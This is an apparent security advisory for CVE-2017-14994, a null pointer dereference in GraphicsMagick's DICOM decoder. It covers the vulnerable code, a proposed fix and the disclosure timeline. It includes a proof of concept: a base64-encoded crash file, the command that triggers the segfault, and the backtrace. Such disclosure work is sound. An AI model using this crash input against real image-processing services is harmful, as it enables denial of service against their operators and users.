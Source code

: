 ```yaml
---
title: "GraphicsMagick NULL Pointer Dereference in DICOM Decoder
        (CVE-2017-14994)"
header:
  overlay_image: /assets/images/cve-2017-14994/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - vulnresearch
  - graphicsmagick
  - denial-of-service
---
```


A null pointer dereference vulnerability in the GraphicsMagick DICOM image
decoder allows an attacker to cause a denial-of-service condition or other
unspecified impact.

## Affected Versions

The current release (1.3.26) is affected. Further analysis is required to
determine which versions are also affected by the vulnerability.

## Vulnerability Scores

* Classification: CWE-476: NULL Pointer Dereference
* CVSSv3: 5.3
  ([AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L](AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L))

## Description

The null pointer dereference happens in the function `ReadDCMImage` of the file
`coders/dcm.c`. The `Image * image` pointer contains the value `0`. Since the
dereference `image->previous` attempts to access the memory address `0x1a40`
(0x1a40 being the offset of the `previous` field), the program segfaults.

```c
4603 static Image *ReadDCMImage(const ImageInfo *image_info,ExceptionInfo
     *exception)
4604 {
...
4853   if (status == MagickPass)
4854     {
4855       while (image->previous != (Image *) NULL)
4856         image=image->previous;
4857       CloseBlob(image);
4858       return(image);
4859     }
...
4865 }
```

The `image` pointer is set to null in this call to `DCM_ReadNonNativeImages`.

```c
4603 static Image *ReadDCMImage(const ImageInfo *image_info,ExceptionInfo
     *exception)
4604 {
...
4686     else if ((dcm.transfer_syntax != DCM_TS_IMPL_LITTLE) &&
4687              (dcm.transfer_syntax != DCM_TS_EXPL_LITTLE) &&
4688              (dcm.transfer_syntax != DCM_TS_EXPL_BIG) &&
4689              (dcm.transfer_syntax != DCM_TS_RLE))
4690       {
4691         status=DCM_ReadNonNativeImages(&image,image_info,&dcm,exception);
4692         dcm.number_scenes=0;
4693       }
...
4865 }
```

This is due to an edge case in the function `DCM_ReadNonNativeImages` from the
file `coders/dcm.c`. If the `dcm->number_scenes` field is 0, the entire for loop
is skipped and the `image` pointer is set to NULL.

```c
4414 static MagickPassFail DCM_ReadNonNativeImages(Image **image,
     const ImageInfo *image_info,DicomStream *dcm,ExceptionInfo *exception)
4415 {
...
4439   image_list=(Image *)NULL;
...
4448   for (scene=0; scene < dcm->number_scenes; scene++)
4449     {
...
4566     }
4567   DestroyImage(*image);
4568   *image=image_list;
4569   return status;
4570 }
```

## Mitigation

A simple fix could be to place a check that `image` is non-null before
dereferencing `image` in the `ReadDCMImage` function.

```c
4603 static Image *ReadDCMImage(const ImageInfo *image_info,ExceptionInfo
     *exception)
4604 {
...
4853   if (status == MagickPass)
4854     {
4855       while (image != (Image *) NULL && image->previous != (Image *) NULL)
4856         image=image->previous;
4857       CloseBlob(image);
4858       return(image);
4859     }
...
4865 }
```

## Proof of Concept

The file `crash.dcm` is attached in this report. It is also included here as a
base64 encoded file.

```
MDAwMFVTAgAwMDAwMDBVUwIAMDAwMDAwVVMCADAwMDAwMFVTAgAwMDAwMDBVUwIAMDAwMDAwVVMC
ADAwMDAwMENTAgAwMCgACAAbAAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMMoAAAAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMAIAAAAwMDAwMDBVSRoAMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwVUk4ADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwAgAQAFVJFgAxLjIuODQwLjEwMDA4LjEuMi40LjAwMDAw
MFVJHAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMFVTAgAwMDAwMDBDUwwAMDAwMDAw
MDAwMDAwMDAwMFVTAgAwMCgAEABVUwIAMDAoABEAVVMCADAwMDAwMFVTAgAwMDAwMDBVUwIAMDAw
MDAwVVMCADAwMDAwMFVTAgAwMDAwMDBDUwIAMDAwMDAwQ1MMADAwMDAwMDAwMDAwMOB/EAAwMDAw
/v8A4A==
```

Running the command `gm identify` on the crash file yields an abort from an
exeception generated by a segmentation fault.

```shell
$ gm identify crash.dcm
gm identify: abort due to signal 11 (SIGSEGV) "Segmentation Fault"...
Aborted (core dumped)
```

The backtrace from the crash:

```
#0  ReadDCMImage (image_info=<optimized out>, exception=<optimized out>) at
                  coders/dcm.c:4855
#1  0x000000000043c47c in ReadImage (image_info=image_info@entry=0x8c8f40,
                  exception=exception@entry=0x7fffffffdc20)
                  at magick/constitute.c:1607
#2  0x000000000043d23e in PingImage (image_info=image_info@entry=0x8c4dd0,
                  exception=exception@entry=0x7fffffffdc20) at
                  magick/constitute.c:1370
#3  0x000000000040d329 in IdentifyImageCommand (image_info=0x8c4dd0, argc=0x2,
                  argv=0x8c6f20, metadata=0x7fffffffdc18,
                  exception=0x7fffffffdc20) at magick/command.c:8379
#4  0x000000000040ec6c in MagickCommand (image_info=image_info@entry=0x8c4dd0,
                  argc=argc@entry=0x2, argv=argv@entry=0x7fffffffe5a0,
                  metadata=metadata@entry=0x7fffffffdc18,
                  exception=exception@entry=0x7fffffffdc20) at
                  magick/command.c:8869
#5  0x000000000040fd15 in GMCommandSingle (argc=0x2, argc@entry=0x3,
                  argv=0x7fffffffe5a0, argv@entry=0x7fffffffe598) at
                  magick/command.c:17396
#6  0x000000000043185c in GMCommand (argc=0x3, argv=0x7fffffffe598) at
                  magick/command.c:17449
#7  0x00007ffff656b830 in __libc_start_main (main=0x409650 <main>, argc=0x3,
                  argv=0x7fffffffe598, init=<optimized out>,
                  fini=<optimized out>, rtld_fini=<optimized out>,
                  stack_end=0x7fffffffe588) at ../csu/libc-start.c:291
#8  0x0000000000409689 in _start ()
```

## Credit

This issue was discovered by Terry Chia (@ayrx) and Jeremy Heng (@nn\_amon).

## Timeline

* 30 Sept 2017 - Discovery of the vulnerability.
* 1 Oct 2017 - [Disclosure](https://sourceforge.net/p/graphicsmagick/bugs/512/)
  of vulnerability to the vendor.
* 1 Oct 2017 - Vulnerability fixed in mercurial
  [commit](http://hg.code.sf.net/p/graphicsmagick/code/rev/b3eca3eaa264).
* 2 Oct 2017 - CVE number requested.
* 3 Oct 2017 - CVE-2017-14994 assigned.
* 3 Oct 2017 - Advisory sent to oss-security mailing list.
